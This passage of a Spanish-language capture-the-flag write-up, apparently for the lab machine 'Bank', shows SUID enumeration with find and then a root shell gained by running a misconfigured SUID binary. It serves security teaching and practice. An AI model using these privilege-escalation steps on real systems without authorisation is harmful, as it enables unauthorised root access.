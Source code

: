 Para trabajar más comodos vamos a hacer un [Tratamiento de la tty](/tratamiento-tty) y vemos que podemos visualizar la flag (user.txt); por lo tanto vamos a enumerar un poco el sistema para ver de que forma nos podemos convertir en **root**.

```bash
www-data@bank:/home/chris$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bank:/home/chris$ sudo -l
[sudo] password for www-data: 
www-data@bank:/home/chris$ cd /
www-data@bank:/$ find \-perm -4000 2>/dev/null
./var/htb/bin/emergency
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/at
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/pkexec
./usr/bin/newgrp
./usr/bin/traceroute6.iputils
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/mtr
./usr/sbin/uuidd
./usr/sbin/pppd
./bin/ping
./bin/ping6
./bin/su
./bin/fusermount
./bin/mount
./bin/umount
www-data@bank:/$
```

Nos encontramos con el binario `/var/htb/bin/emergency` el cual tiene permisos SUID, por lo tanto vamos a probar a ejecutarlo a ver que pasa.

```bash
www-data@bank:/$ /var/htb/bin/emergency
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt). Si le aplicamos un `strings` al binario, vemos que podría hacer multiples cosas y una cadena imprimible en donde se observa `/bin/sh`, que es lo que nos despliega al ejecutarlo.
